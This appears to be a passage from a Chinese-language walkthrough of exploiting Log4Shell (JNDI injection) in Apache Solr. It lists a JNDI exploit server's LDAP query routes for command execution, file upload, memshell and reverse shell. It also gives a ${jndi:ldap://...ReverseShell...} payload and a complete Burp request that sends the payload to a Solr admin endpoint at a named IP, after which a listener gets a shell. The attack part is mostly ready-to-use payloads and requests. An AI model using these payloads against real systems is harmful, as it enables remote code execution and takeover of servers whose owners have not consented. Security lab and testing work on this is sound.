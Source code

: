 ```

[+] GroovyBypass Queries
    ldap://0.0.0.0:1389/GroovyBypass/Command/[cmd]
    ldap://0.0.0.0:1389/GroovyBypass/Command/Base64/[base64_encoded_cmd]

[+] WebsphereBypass Queries
    ldap://0.0.0.0:1389/WebsphereBypass/List/file=[file or directory]
    ldap://0.0.0.0:1389/WebsphereBypass/Upload/Dnslog/[domain]
    ldap://0.0.0.0:1389/WebsphereBypass/Upload/Command/[cmd]
    ldap://0.0.0.0:1389/WebsphereBypass/Upload/Command/Base64/[base64_encoded_cmd]
    ldap://0.0.0.0:1389/WebsphereBypass/Upload/ReverseShell/[ip]/[port]  ---windows NOT supported
    ldap://0.0.0.0:1389/WebsphereBypass/Upload/WebsphereMemshell
    ldap://0.0.0.0:1389/WebsphereBypass/RCE/path=[uploaded_jar_path]   ----e.g: ../../../../../tmp/jar_cache7808167489549525095.tmp
```

这里将使用这个payload

<pre><code><strong>${jndi:ldap://xx.xx.xx.xx:1389/Basic/ReverseShell/xx.xx.xx.xx/9991}
</strong></code></pre>

服务器监听9991端口，使用Burp发送请求

```
GET /solr/admin/cores?action=${jndi:ldap://xx.xx.xx.xx:1389/Basic/ReverseShell/xx.xx.xx.xx/9991} HTTP/1.1
Host: 43.143.138.7:8983
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

监听端口返回一个shell

<figure><img src="../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>
